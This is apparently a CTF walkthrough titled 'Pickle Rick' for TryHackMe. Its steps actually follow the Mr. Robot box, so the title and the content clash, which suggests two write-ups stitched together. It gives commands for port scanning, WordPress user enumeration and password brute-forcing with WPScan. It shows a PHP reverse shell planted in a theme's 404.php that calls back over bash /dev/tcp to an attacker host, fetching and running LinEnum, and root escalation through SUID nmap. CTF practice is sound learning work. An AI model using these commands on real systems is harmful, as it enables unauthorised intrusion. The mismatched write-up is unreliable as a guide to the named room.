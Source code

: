 ```yaml
---
title: Pickle Rick
categories: [TryHackMe]
tags: [Linux, easy]
image: images/Rick/Rick.png
---
```


**Pickle Rick** is an **easy** rated room on **TryHackMe** inspired by Rick and morty series. This is probably one of the easiest TryHackMe Boxes but then again , it’s great for practice.

# 1. Initial Reconnaissance and Scanning:

The first phase of any Capture The Flag (CTF) challenge is information gathering. Our goal here is to identify what services are running on the target machine and which ports are open. This intelligence sets the stage for future attacks.

### Nmap Scan:

Use Nmap to scan the target's open ports, services, and versions:

```console
nmap -sC -sV -oN nmap_scan <Target_IP>

```

●`-sC:` Enables default scripts, often revealing common vulnerabilities.  
●`-sV:` Detects service/version information, such as Apache, OpenSSH, etc.

### Understanding the Results:

Look for ports such as:

●**Port 80** (HTTP): Likely indicates a website is running.  
●**Port 443** (HTTPS): Secure HTTP services.  
●**Port 22** (SSH): Useful later for remote access.

we do a little nmap scan on the given IP address and discover
![Pickle-Rick](../Images/Rick/nmap.png)

# 2. Web Enumeration :

With **port 80 (HTTP)** open, it's time to explore the website for hidden vulnerabilities or clues. This includes both manual inspection and automated enumeration of directories.

### Inspect the Website:

Visit the site at `http://<Target_IP>`. The website is themed around the **Mr. Robot** show, but stay focused on finding clues. Check the **page source** for hidden comments or links that developers might have left behind.

**robots.txt File:**
The `robots.txt` file can contain sensitive or hidden information that isn't meant for users. Access it with:

```console
curl http://<Target_IP>/robots.txt
```

You'll find two key pieces of information:

**●fsocity.dic:** A wordlist for brute-forcing passwords.  
**●key-1-of-3.txt:** The first flag. Retrieve it from `http://<Target_IP>/key-1-of-3.txt`.
Download both files:

```console
wget http://<Target_IP>/fsocity.dic
wget http://<Target_IP>/key-1-of-3.txt
```

The **fsocity.dic** file is a wordlist we will use later for brute-forcing the login credentials.

# 3. Directory Brute-Forcing

Next, we perform directory brute-forcing to uncover hidden pages or admin areas. This step can lead to further insights about the target's web structure.

### Gobuster or Dirb Scan:

```console
gobuster dir -u http://<Target_IP> -w /usr/share/wordlists/dirb/common.txt
```

●`u:` The target URL.
●`w:` The wordlist (in this case, common.txt).
●`t:` Number of threads to speed up the process.
The scan will reveal directories like `/wp-admin` and `/wp-login.php`, indicating the presence of **WordPress** on the machine a crucial discovery, as WordPress sites are often vulnerable.

# 4. WordPress Enumeration

Knowing that the target is running WordPress, the next step is to enumerate the WordPress installation to identify users and vulnerabilities.

### WPScan:

WPScan is a great tool for WordPress enumeration. Let's start by finding users:

```console
wpscan --url http://<Target_IP> --enumerate u
```

This scan will likely reveal a username like **Elliot**, named after the main character from Mr. Robot. Now you have a target for a brute-force attack.

# 5. Brute-Forcing WordPress Login

With the username **Elliot** identified, the next step is to brute-force the password using the **fsocity.dic** wordlist.

### WPScan Brute-Force:

```console
wpscan --url http://<Target_IP> --wordlist fsocity.dic --username Elliot
```

WPScan will attempt to log in with each password in the wordlist until it succeeds, eventually cracking the password.

# 6. Gaining Access Through WordPress

Once you’ve logged in as **Elliot** via `http://<Target_IP>/wp-login.php`, you have control over the WordPress site. Your next goal is to upload a **reverse shell** and gain access to the underlying system.

### Uploading a Reverse Shell:

Go to **Appearance > Theme Editor**, and select the `404.php` file. Replace its content with **Pentestmonkey’s PHP reverse shell**: [link](https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php)

```console
<?php
exec("/bin/bash -c 'bash -i >& /dev/tcp/<Your_IP>/<Your_Port> 0>&1'");
?>
```

Insert your local machine's IP address and the port you want to listen on.

# Netcat Listener:

On your machine, set up a listener with **Netcat**:

```console
nc -lvnp <Your_Port>
```

# Trigger the Reverse Shell:

Visit the following URL to execute the reverse shell:

```console
http://<Target_IP>/wp-content/themes/<theme>/404.php
```

This will establish a connection between the target and your local machine.

# 7. Privilege Escalation

Now that you have a shell, you need to escalate your privileges from a low-level user to **root**.

### System Enumeration:

Check system information and identify potential privilege escalation vectors:

```console
whoami        # Check current user
hostname      # System name
uname -a      # Kernel version
```

### Using LinEnum or LinPEAS:

You can automate the privilege escalation enumeration process using tools like **LinEnum** or **LinPEAS**:

```console
wget http://<URL_to_LinEnum>/LinEnum.sh
chmod +x LinEnum.sh
./LinEnum.sh
```

### Escalating with SUID Binaries:

Check for binaries with the SUID bit set (which run as root even if you're a regular user):

```console
find / -perm -u=s -type f 2>/dev/null
```

If **nmap** has the SUID bit set, you can use its interactive mode to escalate privileges:

```console
nmap --interactive
!sh
```

This will drop you into a root shell.

# 8. Capture the Flags

Now that you have root access, it's time to capture all three flags.

●**First Flag**: Found in the `robots.txt` file (`key-1-of-3.txt`).
●**Second Flag**: Search the home directories to find the second flag:

```console
cat /home/<username>/key-2-of-3.txt
```

●**Root Flag**: The final flag is usually located in the root directory:

```console
cat /root/key-3-of-3.txt
```

# Final Thoughts

With root access and all flags captured, you have successfully completed the **Mr. Robot** CTF challenge on TryHackMe or Vulnhub.
